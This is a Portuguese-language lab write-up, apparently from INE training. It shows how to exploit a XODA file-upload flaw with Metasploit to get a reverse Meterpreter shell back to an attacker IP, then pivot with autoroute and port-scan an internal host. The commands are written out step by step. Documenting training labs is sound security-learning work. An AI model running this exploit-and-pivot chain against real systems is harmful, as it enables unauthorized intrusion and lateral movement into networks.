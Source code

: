# INE Lab - Exploração de XODA File Upload e Pivotamento para Rede Interna

![Metasploit](https://img.shields.io/badge/Metasploit-6.0-red) ![Nmap](https://img.shields.io/badge/Nmap-7.90-green)

## 📌 Objetivo
Explorar a vulnerabilidade **XODA File Upload** em `demo1.ine.local` para:
- Ganhar acesso inicial via RCE (Remote Code Execution).
- Enumerar serviços na rede interna.
- Demonstrar pivotamento para um segundo alvo.

---

*Feito em um lab com ambiente controlado. Nenhuma *

## 🔍 Metodologia

## 1. <span style="color:#e67e22">🌐 Verificação de Acessibilidade</span> 🏓
```bash
ping -c 5 demo1.ine.local 
```
- Host respondeu aos pings, confirmando acessibilidade.


![](Screenshots/initial_ping.png)

*Figura 1: Host ativo (resposta ao ICMP).*


## 2. <span style="color:#e67e22">🛡️ Escaneamento Inicial com Nmap</span> 🔍
```bash
nmap demo1.ine.local
```

- Porta 80/HTTP aberta.

![](Screenshots/basic_nmap_scan.png)					

*Figura 2: Scan Nmap revelando porta 80 aberta*

## 3. <span style="color:#e67e22">🕵️ Análise do Serviço Web com cURL</span> 🌐

```
curl demo1.ine.local
```
- Identificada instância do XODA (web file manager).

![](Screenshots/curl_host_1.png)

*Figura 3: Página HTML revelando XODA*

## 4. <span style="color:#e67e22">💥 Exploração com Metasploit</span> 🎯

### <span style="color:#9b59b6">🔧 Pré-requisitos</span>: 
```bash
/etc/init.d/postgresql start  	  # Inicia o banco de dados do Metasploit para registro de sessões
----------------------------------------------------------------------------------------------
msfconsole                        # Inicia o framework Metasploit
----------------------------------------------------------------------------------------------
db_status                         # Verifica se a conexão com o banco de dados está ativa
```

### <span style="color:#9b59b6">🔎 Busca pelo Exploit</span>
```bash
search xoda_file_upload           # Procura módulos relacionados à vulnerabilidade XODA
---------------------------------------------------------------------------------------------
use exploit/unix/webapp/xoda_file_upload  # Seleciona o exploit específico
```
![](Screenshots/xoda_options_default.png)

*Figura 4: Busca pelo exploit do XODA.*

### <span style="color:#e74c3c">⚙️ Configuração Necessária</span>
```bash
set RHOSTS demo1.ine.local        # Define o alvo (Remote HOST)
---------------------------------------------------------------------------------------------
set TARGETURI /                   # Especifica o caminho base do XODA (normalmente na raiz)
---------------------------------------------------------------------------------------------
set LHOST [IP_ATACANTE]           # Configura o IP local para receber a conexão reversa
---------------------------------------------------------------------------------------------
exploit                           # Executa o exploit
```
![](Screenshots/exploit_options_values.png)

*Figura 5: Definindo valores para as opções do exploit.*


### <span style="color:#3498db">Explorações Adicionais</span>

**PostgreSQL**: Necessário para armazenar dados de sessões e resultados de scans


⚠️**RHOSTS vs LHOST**:

**RHOSTS**: Alvo do ataque


**LHOST**: Sua máquina (para shells reversos)


**TARGETURI**: Muitos exploits web requerem ajuste do path padrão


**Verificação**: Sempre use show options antes de executar para confirmar parâmetros


<span style="color:#2ecc71">✅ Resultado Esperado</span>:

Sessão Meterpreter aberta com privilégios do serviço web.

![](Screenshots/run_exploit.png)

*Figura 6: Exploit enviado com sucesso. Sessão do meterpreter iniciada.*

## 5. <span style="color:#e67e22">Pós-Exploração</span> 🕵️

### <span style="color:#f1c40f">🐚 Shell Interativo</span>

```bash
shell			# Inicia uma sessão shell básica no alvo (geralmente não-interativa)
---------------------------------------------------------------------------------------------
/bin/bash -i		# Força um shell interativo
---------------------------------------------------------------------------------------------
ifconfig		# Lista interfaces de rede do alvo
```

![](Screenshots/meterpreter_shell_ifconfig.png)

*Figura 7: Shell utilizado para acessar o ifconfig.*

### <span style="color:#9b59b6">🗺️ Mapeamento Interno</span>

```bash
run autoroute -s 192.140.124.2 	# Cria rota na rede interna via Meterpreter
		 			# '-s' = (subnet): Define a rede de destino para a qual a rota será criada.
---------------------------------------------------------------------------------------------
background  # Coloca a sessão atual em segundo plano
		    
```

![](Screenshots/meterpreter_autoroute.png)

*Figura 8: Rota de recebimento de dados para o atacante definida.*

### <span style="color:#e74c3c">🔍 Varredura de Portas Internas</span>

```bash
use auxiliary/scanner/portscan/tcp  # Carrega módulo de scan TCP:
                                    # - Evita detecção (mais lento que Nmap)
                                    # - Integrado ao Metasploit
---------------------------------------------------------------------------------------------                                    
set RHOSTS 192.140.124.3  # Define alvo interno (do ifconfig anterior)
---------------------------------------------------------------------------------------------
set PORTS 1-65535 		  # Define fazer a varredura de todas as portas TCP.
```

![](Screenshots/portscan_options_values.png)

*Figura 9: Busca e definição das opções do portscan*

<span style="color:#2ecc71">✅ Resultado</span>

Foram detectadas 3 portas abertas:

- Porta 21/FTP

- Porta 22/SSH

- Porta 80/HTTP

![](Screenshots/portscan_results.png)

*Figura 10: Portas abertas descobertas com sucesso.*

<span style="color:#1abc9c">🎯 Nota Final:
Este lab demonstrou como vulnerabilidades em aplicações web (XODA) podem servir como vetor inicial para comprometer redes internas. O ambiente controlado permitiu testar técnicas de pivoteamento sem risco real, reforçando a importância de:

1. Patch management
2. Network segmentation
3. Log analysis

</span>

## Disclaimer
Este relatório documenta atividades realizadas **exclusivamente** em um ambiente de laboratório controlado, com as seguintes características:
- Todas as máquinas/alvos são parte de uma infraestrutura dedicada para fins educacionais
- Nenhum dado confidencial ou sistema de produção foi acessado ou comprometido
- As vulnerabilidades exploradas foram deliberadamente configuradas para fins didáticos
- Todas as ferramentas utilizadas estão em conformidade com as políticas do laboratório

**Ética & Conformidade**:  
As técnicas demonstradas devem ser aplicadas apenas em ambientes autorizados. A reprodução não autorizada em sistemas reais constitui violação legal.